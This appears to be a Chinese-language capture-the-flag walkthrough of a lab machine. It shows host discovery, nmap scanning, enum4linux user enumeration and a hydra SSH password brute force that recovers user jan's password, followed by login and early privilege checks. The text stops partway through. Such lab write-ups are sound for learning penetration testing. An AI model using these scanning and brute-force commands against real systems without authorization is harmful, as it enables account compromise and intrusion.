 

##### 攻擊主機：Kali_Linux_2019.3 
##### 靶機：JIS-CTF-VulnUpload-CTF01

**Kali>** <code>arp-scan -l</code> (尋找靶機)<br/>
**Kali>** <code>nmap -A 192.168.203.132</code> (去看他開啟了甚麼port) <br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/587481ef-dc6a-4eb7-b822-6aaab8f60a39)
(我發現他開啟了22port，那就可以走簡單的ssh，也發現他有開samba 我選擇走enum4linux)<br/>
**Kali>** <code>enum4linux 192.168.203.132</code> (掃描，看看能掃到甚麼)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/934b796a-fdba-4e40-9714-ea289b312fed)
(得到兩個使用者帳號 Kay 和 Jan)<br/>
(Jan 權限較低，較好攻擊)<br/>
**kali>**  <code>hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.203.132 ssh</code> (破解密碼)<br/>
(得到帳號jan的密碼：armando)<br/>
**kali>** <code>ssh jan@192.168.203.132</code>(連線到jan的帳號)<br/>
**Jan>** <code>sudo -l</code>(測試我的權限)(發現權限不足，改入侵kay)<br/>
**Jan>** <code>pwd</code>(查看我在哪裡)<br/>
**Jan>** <code>cd ..</code><br/>
**Jan>** <code>ls -al</code><br/>
**Jan>** <code>cd /home/kay</code>(移動到kay的檔案夾下)<br/>

